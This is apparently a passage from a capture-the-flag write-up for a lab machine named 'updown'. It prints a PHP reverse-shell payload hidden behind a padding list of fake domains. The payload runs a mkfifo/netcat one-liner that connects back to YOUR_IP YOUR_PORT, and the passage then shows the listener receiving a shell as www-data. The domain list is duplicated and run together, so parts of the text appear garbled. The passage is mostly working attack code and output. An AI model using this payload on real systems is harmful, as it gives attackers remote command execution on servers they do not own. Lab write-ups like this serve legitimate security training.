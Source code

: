 
Here is our malicious code filled with our list of some fake websites.

```php
google.com
dede.com
dtrtg.con
degtergh6rh.com
fefefefef.com
masoko.com
lisoko.com
likolo.com
lisoumou.com 
mataku.com 
lisu.co.orggoogle.com
dede.com
dtrtg.con
degtergh6rh.com
fefefefef.com
masoko.com
lisoko.com
likolo.com
lisoumou.com 
mataku.com 
lisu.co.org
<?php
$descriptorspec = array(
   0=> array("pipe", "r"),  // stdin is a pipe that the child will read from
   1=> array("pipe", "w"),  // stdout is a pipe that the child will write to
   2=> array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);
$process = proc_open('sh', $descriptorspec, $pipes, $cwd, $env);
if (is_resource($process)) {
    fwrite($pipes[0], 'rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc YOUR_IP YOUR_PORT >/tmp/f');
    fclose($pipes[0]);

    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);

    $return_value = proc_close($process);
   
     echo "command returned $return_value\n";
}
?>
```

# User

We finally got the reverse shell.

```bash
➜  nc -nvlp 4433
Listening on 0.0.0.0 4433
Connection received on 10.10.11.177 39016
sh: 0: can't access tty; job control turned off
$ id;whoami;hostname
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data
updown
```
{: .nolineno }
